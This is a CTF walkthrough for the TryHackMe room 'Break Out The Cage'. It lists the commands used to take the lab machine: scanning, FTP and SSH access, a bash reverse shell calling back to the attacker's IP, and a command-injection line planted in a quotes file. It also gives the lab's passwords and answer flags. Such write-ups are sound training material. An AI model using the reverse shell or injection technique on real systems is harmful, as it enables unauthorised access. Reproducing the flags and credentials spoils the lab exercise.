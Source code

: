 # <div align="center">[Break Out The Cage](https://tryhackme.com/r/room/breakoutthecage1)</div>
<div align="center">Help Cage bring back his acting career and investigate the nefarious goings on of his agent!</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/ed38db2b-132d-4481-91b0-b98251287fd6" height="200"></img>
</div>

## Task 1. Investigate!

Let's find out what his agent is up to....

### What is Weston's password?
```
nmap -sC -sV <IP>
ftp <IP>
ls -la
get dad_tasks
cat dad_tasks | base64 -d
```
```
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```
### What's the user flag?
```
ssh weston@<IP>
weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes
sudo -l
ls -l /usr/bin/bees
sudo /usr/bin/bees 
find / -type f -user cage 2>/dev/null
cat /opt/.dads_scripts/spread_the_quotes.py
cat /opt/.dads_scripts/.files/.quotes
nc -nlvp 4444

cat > /tmp/shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.9.0.54/4444 0>&1
EOF

chmod +x /tmp/shell.sh
printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
cat Super_Duper_Checklist
```

```
THM{M37AL_0R_P3N_T35T1NG}
```
### What's the root flag?
```
cat email_backup/*
su root
Password: cageisnotalegend
ls -la
cd email_backup
cat email_1
```
```
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```
## Done 😙
